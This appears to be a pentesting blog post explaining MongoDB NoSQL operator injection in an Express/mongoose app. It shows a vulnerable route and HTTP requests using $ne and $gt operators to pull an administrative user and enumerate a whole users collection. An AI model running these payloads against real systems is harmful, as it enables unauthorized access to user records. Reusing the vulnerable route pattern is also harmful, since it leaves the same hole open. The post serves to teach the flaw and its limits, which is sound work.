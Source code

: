 # MongoDB NoSQL Operator Injection: Iterating Collections

<p className="text-xs text-right">July 25, 2020 by [patrickd](/about#patrickd)</p>

During Penetration-Test reconnaissance, enumerating through rows of a SQL database is usually simple due to the use of sequential identifiers:

```bash
GET /users?id=1
GET /users?id=2
GET /users?id=3
...
```

The NoSQL database [MongoDB](https://www.mongodb.com/) uses ["ObjectIds"](https://docs.mongodb.com/manual/reference/method/ObjectId/) which are 12 byte (represented as a 24 characters long hexdecimal string) identifiers made up of:


| Length        | Description     |
| ------------: | :---------  |
| 4 bytes       | unix timestamp |
| 5 bytes       | "random" value, typically a 3 byte machine specific identifier (eg. from mac address) and the 2 byte process id |
| 3 bytes       | sequential counter (does not reliably count in increments of 1) |

Although this means that ObjectIds can be called "incremental" (as each new id is greater than the previous one), they are still more difficult to predict than a simple integer.

## Exploit

Let's assume we have a NodeJS application with a route controller executing a read operation (using the [mongoose ODM](https://mongoosejs.com/) library) in order to fetch a single document from a collection with a specified identifier:

```javascript showLineNumbers filename="Route Controller" /req.query.id/
// GET /users?id=5ef3bfd5bec2121c8525f3fe
app.get('/users', async (req) => {
  // -> db.users.findOne({ _id: ObjectId('5ef3bfd5bec2121c8525f3fe') })
  return userModel.findOne({ _id: req.query.id });
});
```

The used [expressJS](https://expressjs.com/) HTTP application server framework (and many others) will parse the query parameters while allowing arrays (`?key[]=value1&key[]=value2{:js}`) and even objects (`?key[field]=value{:js}`) to be specified.

This can be used to inject query operators such as not-equal (`$ne`):

```bash
GET /users?id[$ne]=000000000000000000000000
```

Resulting query: Find one document with an ID that is *not equal* to the specified ID.
```javascript
db.users.findOne({ _id: { $ne: ObjectId('000000000000000000000000') } })
```

This yields us the very first document of the users collection (the first document that does not match the specified identifier in the natural order of the collection), which is typically an administrative user.

After having determined the identifier of the first document in the collection, we can use the greater-than (`$gt`) operator to iterate over the whole collection:

```bash
GET /users?id[$ne]=000000000000000000000000
  -> 1. document: _id: 5f1caba000aa76a6263c1854
GET /users?id[$gt]=5f1caba000aa76a6263c1854
  -> 2. document: _id: 5f1caba300aa76a6263c1857
GET /users?id[$gt]=5f1caba300aa76a6263c1857
  -> 3. document: _id: 5f1cabae00aa76a6263c185f
...
```

## Caveats

Note that vectors involving MongoDB ObjectIds are only available when ODMs such as mongoose are used that will automatically convert strings into them. When [native clients](https://mongodb.github.io/node-mongodb-native/) are used, query values will usually be passed through a conversion function causing errors to be thrown when attempting to exploit this flaw: `Provided identifier is not a valid MongoDB ObjectId string: '[object Object]'`.

Another problem is that the ID must be part of the query parameters. If REST-like patterns are used and the identifier is part of the path (`/users/5ef3bfd5bec2121c8525f3fe`) we won't be able to inject operators so easily.

---


<Cards>
  <Card
    icon={<NewsletterIcon />}
    title="MongoDB NoSQL Operator Injection: Cracking Sessions →"
    href="/posts/2020/8/9/cracking-sessions-mongodb-nosql-operator-injection/"
  />
</Cards>